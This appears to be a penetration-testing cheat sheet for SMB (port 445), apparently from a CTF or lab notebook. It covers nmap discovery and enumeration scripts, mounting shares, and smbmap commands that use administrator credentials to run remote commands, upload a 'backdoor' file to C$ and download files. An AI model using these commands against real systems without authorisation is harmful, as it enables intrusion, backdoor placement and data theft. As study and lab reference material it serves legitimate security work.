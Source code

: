 ```yaml
---
description: 'Port: 445'
---
```


# SMB

## SMB Discover and Mount

### Nmap command to check port 445/tcp open

```
PS> nmap <ip address/cidr> --open
```

### Steps to connect to SMB share on windows

* Right click on Network
* Map network drive
* Enter the IP address of the target machine as: \\\\\<ip address>
* Click on Browse
* Double click on the IP address
* Enter Username and Password
* Ok

### Remove existing mounted drive using CMD

```
net use * /delete
```

### Mount the remote SMB drive using CMD

```
net use Z: \\<ip address>\C$ <password> /user:<username>
```



***

## SMBMap

### Check supported protocols and dialects of an SMB server

```
nmap -p 445 --script smb-protocols <IP address>
```

<figure><img src="../../../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

### Access SMB Server

```
smbmap -u guest -p "" -d . -H <IP address>
```

### Access the remote shares using admin creds

```
smbmap -u administrator -p <password> -d . -H <IP address>
```

### Execute commands on the target machine

```
smbmap -H <IP address> -u administrator -p <password> -x 'ipconfig'
```

### List available drives

```
smbmap -H <IP address> -u Administrator -p '<password>' -L 
```

### List Contents of C: drive

```
smbmap -H <IP address> -u Administrator -p '<password>' -r 'C$'
```

### Create a backdoor file and Upload to the target machine

```
smbmap -H <IP address> -u Administrator -p '<password>' --upload '/root/backdoor' 'C$\backdoor'
```

### Download a file

```
smbmap -H <IP address> -u Administrator -p '<password>' --download 'C$\flag.txt'
```



***

## SMB Nmap Scripts

### Get the information about SMB security level

```
nmap -p 445 --script smb-security-mode <IP address>
```

### Enumerate the users logged into a system

```
nmap -p445 --script smb-enum-sessions <IP address>
```

### Enumerate the users logged into a system through SMB share using creds

```
nmap -p445 --script smb-enum-sessions --script-args smbusername=administrator,smbpassword=<password> <IP address>
```

### Enumerate all available shares

```
nmap -p445 --script smb-enum-shares <IP addr>
```

### Enumerate all available shares using valid creds

```
nmap -p445 --script smb-enum-shares --script-args smbusername=administrator,smbpassword=<password> <IP addr>
```

### Enumerate the windows users

```
nmap -p445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=<password> <IP address>
```

### Get information about the server statistics

```
nmap -p445 --script smb-server-stats --script-args smbusername=administrator,smbpassword=<password> <IP address>
```

### Enumerate available domains

```
nmap -p445 --script smb-enum-domains --script-args smbusername=administrator,smbpassword=<password> <IP address>
```

### Enumerate available groups

```
nmap -p445 --script smb-enum-groups --script-args smbusername=administrator,smbpassword=<password> <IP addr>
```

### Enumerate Services

```
nmap -p445 --script smb-enum-services --script-args smbusername=administrator,smbpassword=<password> <IP address>
```

### Enumerating all  the shared folders and drives then running the ls command in each shares

```
nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=administrator,smbpassword=<password> <IP addr>
```

